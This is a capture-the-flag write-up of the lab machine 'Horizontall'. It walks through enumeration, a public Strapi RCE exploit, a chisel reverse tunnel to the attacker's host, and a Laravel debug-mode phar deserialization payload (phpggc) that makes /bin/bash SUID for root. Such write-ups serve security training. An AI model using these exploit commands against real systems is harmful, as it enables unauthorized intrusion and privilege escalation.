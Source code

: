 # Horizontall

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.249
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 00:38 EDT
Nmap scan report for 10.129.84.249
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Add `horizontall.htb` to our `/etc/hosts` file to view the website.

### Horizontall Subdomain

This is a typical corporate website advertising a product:

<figure><img src="../../../.gitbook/assets/image (1868).png" alt=""><figcaption></figcaption></figure>

Viewing the page source, we can see a small interesting bit here:

{% code overflow="wrap" %}
```markup
<body><noscript><strong>We're sorry but horizontall doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></noscript><div id="app"></div><script src="/js/chunk-vendors.0e02b89e.js"></script><script src="/js/app.c68eb462.js"></script></body>
```
{% endcode %}

I don't usually come across this, and it appears to be intentionally left there by the creator because the message is customised. We can try to view the JS code that's within this, and perhaps we would find something new. I searched for the box name, and found a new subdomain within the `app.js` file:

<figure><img src="../../../.gitbook/assets/image (1137).png" alt=""><figcaption></figcaption></figure>

Interesting! We can add that to our `hosts` file and view it.&#x20;

### API Reviews

This is what we see when we visit that page:

<figure><img src="../../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

When we head to the `/reviews` directory, we would see some JSON

<figure><img src="../../../.gitbook/assets/image (2756).png" alt=""><figcaption></figcaption></figure>

I ran `gobuster` to scan the directories present on this website and check if we can find anything new.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://api-prod.horizontall.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 00:47:53 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
```

Viewing `/admin` would bringus to a `strapi` login page:

<figure><img src="../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

Googling for exploits pertaining to `strapi` shows this:

{% embed url="https://www.exploit-db.com/exploits/50239" %}

Running the script would spawn a "terminal" for us and also reset the administrator password.

<figure><img src="../../../.gitbook/assets/image (2416).png" alt=""><figcaption></figcaption></figure>

Great! We have RCE. Now, we can easily get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (1664).png" alt=""><figcaption></figcaption></figure>

Grab the user flag within the `developer` user home directory.

## Privilege Escalation

### Port Forwarding

Within the user's home directory, there are some file regarding a project:

```
strapi@horizontall:/home/developer$ ls
composer-setup.php  myproject  user.txt
```

Since there is a PHP file, there might be another application running on another port. We can run `netstat` to check this:

```
strapi@horizontall:/home/developer$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1786/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

We can spawn another shell to port forward this using `chisel`. Since the `strapi` has a home directory, adding an `authorized_keys` file is pretty easy. Then, I downloaded `chisel` via `wget` and ran these commands:

```bash
# on kali
chisel server -p 5555 --reverse
# on victim
chisel client 10.10.14.2:5555 R:8000:127.0.0.1:8000
```

Then we can visit the page!&#x20;

### Laravel Debug RCE

The website just has the default Laravel page:

<figure><img src="../../../.gitbook/assets/image (2991).png" alt=""><figcaption></figcaption></figure>

We can run a directory scan to see what's available.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://localhost:8000 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/04/30 01:27:23 Starting gobuster in directory enumeration mode
===============================================================
/profiles             (Status: 500) [Size: 616204]
```

Interesting. Viewing the `/profiles` leads to a 500 error and brings us to a debug page.

<figure><img src="../../../.gitbook/assets/image (2094).png" alt=""><figcaption></figcaption></figure>

This application enabled the Debug mode and also had Laravel v8 running. It appears to be vulnerable to an older exploit that allows RCE through Laravel Debug mode.

{% embed url="https://github.com/ambionics/laravel-exploits" %}

This exploit uses `phpggc` to create a malicious serialised PHP file that would allow us to execute commands. So, we need to download `phpggc` to the machine and run the following command:

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o id.phar monolog/rce1 system id
```

The first part would allow us to create a `phar` file that executes `id` on the system. When we run the exploit, this is what we would get:

```
$ python3 laravel.py http://127.0.0.1:8000 id.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Works! Now we just need to specify a longer command. In this case, I decided to make `/bin/bash` an SUID binary. We just need to run these commands again

```bash
php -d phar.readonly=0 ./phpggc --phar phar -f -o suid.phar --fast-destruct monolog/rce1 system 'chmod u+s /bin/bash'
python3 laravel.py http://127.0.0.1:8000 suid.phar
```

Then we can easily get a root shell on the machine.

```
strapi@horizontall:~$ /bin/bash -p
bash-4.4# id
uid=1001(strapi) gid=1001(strapi) euid=0(root) groups=1001(strapi)
```

Rooted!
